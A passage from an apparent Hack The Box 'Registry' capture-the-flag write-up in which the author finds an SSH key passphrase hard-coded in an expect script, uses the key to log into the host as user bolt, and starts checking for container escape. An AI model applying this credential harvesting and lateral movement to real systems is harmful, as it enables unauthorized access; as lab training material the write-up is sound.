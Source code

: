 More Enumeration and we spot another script that contain the passphrase to private ssh key.

```bash
root@e45cbfa3189a:/etc# cat /etc/profile.d/01-ssh.sh 
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```


And boom we got user, one hell of a ride.
```bash
root@Zakali:~/ROOTED/Registry/User# ssh bolt@registry.htb -i id_rsa  
The authenticity of host 'registry.htb (10.10.10.159)' can't be established.
ECDSA key fingerprint is SHA256:G1J5ek/T6KuCCT7Xp2IN1LUslRt24mhmhKUo/kWWVrs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'registry.htb,10.10.10.159' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Fri Apr  3 02:48:45 UTC 2020

  System load:  0.0               Users logged in:                0
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 31%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   1%                IP address for docker0:         172.17.0.1
  Processes:    155
Last login: Fri Apr  3 00:01:05 2020 from 10.10.14.180
bolt@bolt:~$ md5sum user.txt 
e4310f784ddfbd1a743f67bafaf78a98  user.txt
```

# Previlege Descalation
Was curious if the user  was running inside a container or on the box host, was able to confirm that we are not inside container with this [link](https://stackoverflow.com/questions/23513045/how-to-check-if-a-process-is-running-inside-docker-container).

```bash
#Prolly outside a docker container  
bolt@bolt:/tmp/aaa$ cat  /proc/1/cgroup
12:cpu,cpuacct:/
11:cpuset:/
10:memory:/
9:devices:/
8:hugetlb:/
7:rdma:/
6:blkio:/
5:pids:/
4:freezer:/
3:perf_event:/
2:net_cls,net_prio:/
1:name=systemd:/init.scope
0::/init.scope
```
